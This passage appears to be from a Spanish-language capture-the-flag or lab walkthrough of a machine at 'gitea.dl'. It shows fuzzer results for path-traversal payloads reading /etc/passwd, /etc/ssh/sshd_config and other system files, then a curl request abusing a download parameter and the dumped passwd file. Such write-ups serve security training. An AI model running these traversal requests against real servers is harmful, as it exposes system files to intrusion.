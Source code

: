```bash
000000265:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../../../etc/passwd"                           
000000269:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../etc/passwd"                                       
000000272:   200        26 L     34 W       1307 Ch     "../../../../../../../../etc/passwd"                                                
000000273:   200        26 L     34 W       1307 Ch     "../../../../../../../etc/passwd"                                                   
000000274:   200        26 L     34 W       1307 Ch     "../../../../../../etc/passwd"                                                      
000000275:   200        26 L     34 W       1307 Ch     "../../../../../etc/passwd"                                                         
000000267:   200        26 L     34 W       1307 Ch     "../../../../../../../../../../../../../etc/passwd"                                 
000000399:   200        8 L      36 W       223 Ch      "/etc/resolv.conf"                                                                  
000000400:   200        41 L     120 W      911 Ch      "/etc/rpc"                                                                          
000000422:   200        122 L    387 W      3255 Ch     "/etc/ssh/sshd_config"                                                              
000000929:   200        26 L     34 W       1307 Ch     "///////../../../etc/passwd"                                                        
```

Con este no nos muestra nada pero si realizamos la peticion desde la terminal con **curl**
```bash
curl -s -X GET "http://gitea.dl/download?filename=/etc/passwd"
```

Logrando ver el archivo:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
designer:x:1001:1001::/home/designer:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:103:MariaDB Server,,,:/nonexistent:/bin/false
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
```
